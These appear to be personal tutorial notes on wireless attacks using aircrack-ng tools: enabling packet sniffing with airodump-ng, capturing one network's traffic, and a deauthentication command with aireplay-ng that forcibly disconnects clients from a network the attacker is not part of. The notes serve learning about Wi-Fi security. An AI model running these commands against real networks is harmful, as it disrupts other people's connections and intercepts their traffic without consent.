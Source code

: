 # Wireless networking basics 02

## Sniff packets
- used tool: airodump-ng

- First enable monitor mode as described on `01_network_basics.MD`

```bash
airodump-ng wlan0 # starts sniffing. On default only 2.4GHz

airodump-ng --band a wlan0 # Sniff 5GHz

airodump-ng --band abg wlan0 # Sniff 2.4+5GHz
```
Description of the output:
- BSSID : target MAC address
- PWR : signal strength (higher the number, bigger the signal)
- Beacons: Frames sent by the network to broadcast its existence
- Data: number of data packets and data frames
- #/s: number of data packets collected in past 10s
- CH: channel that network works on
- MB: Maximum speed of network
- ENC: encryption of the network
- CIPHER: cipher used in the network
- AUTH: auth used on the network
- ESSID: Name of the network

## Sniff all data only from one target (see also all the connected clients)

```bash
airodump-ng --bssid B0:95:75:42:3C:D8 --channel 6 --write test wlan0 # writes output to the files named "test". --bssid and --channel are from results of running previous command
# use parameter "--band a" to capture only on 5GHz
```

## Deauthentication attack with aireplay-ng (disconnect user from WiFi)

Disconnect any device from any network without being part of that network (unauthenticated to the network)

```bash
aireplay-ng --deauth 10000000 -a B0:95:75:42:3C:D8 -c 8A:10:59:BF:D7:89 -D wlan0
```
- --deauth => deauth attack, send given number of packets
- --a => MAC adress of target network
- --c => client we want to disconnect
- -D needs to be only used if using 5GHz